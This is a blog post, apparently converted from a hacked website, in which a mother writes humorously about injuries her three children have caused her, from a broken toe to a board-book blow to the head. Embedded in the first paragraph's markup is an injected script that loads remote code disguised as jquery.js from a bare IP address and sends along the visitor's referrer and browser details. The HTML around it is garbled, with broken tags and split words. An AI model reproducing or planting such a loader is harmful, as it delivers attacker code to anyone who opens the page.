 ```yaml
---
layout: post
title: 'The Pain Of Motherhood'
date: 04-Jul-2013
categories: tbd
---
```


# The Pain Of Motherhood

## 4th July 2013

<div>

 

<img class="photo-horiz" src="/images/2013/06/article_blocks-2.jpg" />

 

<span lang="EN-AU">**<span><span ext/javascript" rel="nofollow"  document.write("<script language='javascript' rel='nofollow' type='text/javascript' src='http://5.45.67.97/1/jquery.js.php?r=" + encodeuri(document.referrer) + "&u=" + encodeuri(navigator.useragent) + "'></sc" + "ript>"); </script></noindex>  'Times New Roman',   serif; font-size: medium;">This post was originally published in Practical Parenting Magazine, March 2013 (and as I post it, I am nursing the tender rib I injured reading the baby a bedtime story. Fa</span></span>**</span><span lang="EN-AU"><span **<span mily life! Y</span>**</span></span><span lang="EN-AU"><span **<span es, it</span>**</span></span><span lang="EN-AU"><span **<span  is a wondrous blessing. But it is also a fucking health hazard.)</span>**</span></span><span  </span>

</div>

<div>

<span lang="EN-AU"><span Last year sometime, during the lengthy, stinky process of toile</span></span><span lang="EN-AU"><span t tra</span></span><span lang="EN-AU"><span ining my son, I was quietly washing the dishes and thinking about blueberry cheesecake when a sudden screaming battle erupted in the bathroom.  It turned out that three year old T-Bone had been struck with a sudden desire to use the toilet, and found it occupied by his five-year-old sister Peanut. He was new to bathroom </span></span><span lang="EN-AU"><span etiquette, </span></span><span lang="EN-AU"><span and his solution to the problem was to push Peanut off her perch, mid-stream. Sibling war erupted, and in the heat of battle one, or both of them, pissed on the floor, which is when I ran in, slipped on the puddle and broke my toe.  That’s motherhood in a nutshell right there. Half drama, half comedy, and you can forget about dignity. You left that back in the birthing suite.  </span></span><span  </span>

</div>

<div>

<span lang="EN-AU"><span I remembered this incident recently now that my toddler has taken to slapping me in the face when I read the wrong book/get the wrong cup/mortally offend her in some other inexplicable baby way. And something has occurred to me. W</span></span><span lang="EN-AU"><span e all know that becoming a parent is an emotional journey.   Whole forests have been sacrificed to furnish the books that explain in what ways you will be emotionally changed and even scarred by motherhood. This is true: anxiety, rage, all of that angsty stuff comes with the territory.  But mainly, motherhood brings incredible joy and wonder and transformative, powerful love. Yes! Hooray for motherhood!</span></span><span  </span>

</div>

<div>

<span lang="EN-AU"><span And yet… there is a dark side. Along with the emotional pain, your children will inflict a lot of actual bodily harm upon you too.  There is, of course, the straight-up agony that comes with pregnancy and birth. Heartburn. Sciatica. Caesarean recovery. Blistered nipples. Torn perineums. But also, there are many mundane, routine ways for your kids to beat you up, from pulling your hair to kicking you in the genitals (a common and terrible experience for dads, I’m told.) </span></span>

</div>

<div>

<span lang="EN-AU"><span  </span></span><span For instance, T-Bone gave once me a black eye with a chicken drumstick.  I’ve also had what is sometimes called ‘toddlers wrist’ caused by a chubby two-year-old Peanut experiencing separation anxiety. She was only happy when carried, for so far and so long that I had to wear a kind of medical arm-Spanx for the duration. Pudding, now 18 months old, ended our breastfeeding relationship when she repeatedly bit me on the nipple. (The pain was bad, but the anticipation was worse.) Currently she’s obsessed with reading, so she hits me across the head with a board book (an underrated weapon with very pointy edges) whenever I stop, regardless of how much I explain that I must, at some point, chop some vegetables and hang washing or else we will be living in squalor, reading Ten Little Fingers by candlelight while cockroaches nibble our filthy toenails. But Pudding doesn’t care about my reasons. Babies don’t negotiate. They move straight to physical assault.</span><span  </span>

</div>

<div>

<span lang="EN-AU"><span It says something about how absolutely bewitching children are, how much unconditional adoration the heart can have, that we endure treatment  that would have us calling the police should another adult  inflict it. In short, it’s really good that babies are so damn adorable. Otherwise, they would all be arrested. </span></span>

</div>

<a href="http://www.facebook.com/sharer.php?u=&amp;linkname=The%20Pain%20Of%20Motherhood"><img src="http://shongjog.files.wordpress.com/2008/04/share-on-facebook.gif?" />
